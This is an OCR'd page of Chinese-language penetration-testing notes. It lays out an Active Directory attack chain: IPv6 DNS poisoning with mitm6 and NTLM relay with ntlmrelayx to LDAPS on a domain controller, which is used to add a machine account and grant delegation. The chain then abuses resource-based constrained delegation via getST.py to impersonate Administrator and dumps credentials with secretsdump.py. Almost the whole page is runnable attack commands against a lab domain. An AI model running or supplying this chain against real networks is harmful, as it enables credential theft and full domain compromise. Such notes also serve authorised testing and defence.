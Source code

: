 	DNS 中毒 - 使用 mitm6 进行中继委托
	要求：
	启用 IPv6（Windows 更喜欢 IPv6 而不是 IPv4）
	基于 TLS 的 LDAP (LDAPS)
	ntlmrelayx 将捕获的凭据中继到域控制器上的 LDAP，使用它来创建新的机器帐户，打印帐户的名称和密码并修改它的委派权限。
	>git clone https://github.com/fox-it/mitm6.git 
	>cd /opt/tools/mitm6
	>pip install .
	mitm6 -hw ws02 -d lab.local --ignore-nofqnd
	-d: 我们过滤请求的域名（被攻击的域）
	-i: 我们让 mitm6 监听事件的接口
	-hw: 主机白名单
	ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad
	ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad --add-computer
	-ip: 您希望中继运行的接口
	-wh: WPAD 主机，指定要提供的 wpad 文件
	t: 您要中继到的目标

	现在授予委托权限，然后执行 RBCD
	ntlmrelayx.py -t ldaps://dc01.lab.local --delegate-access --no-smb-server -wh attacker-wpad
	getST.py -spn cifs/target.lab.local lab.local/GENERATED\$ -impersonate Administrator  
	export KRB5CCNAME=administrator.ccache  
	secretsdump.py -k -no-pass target.lab.local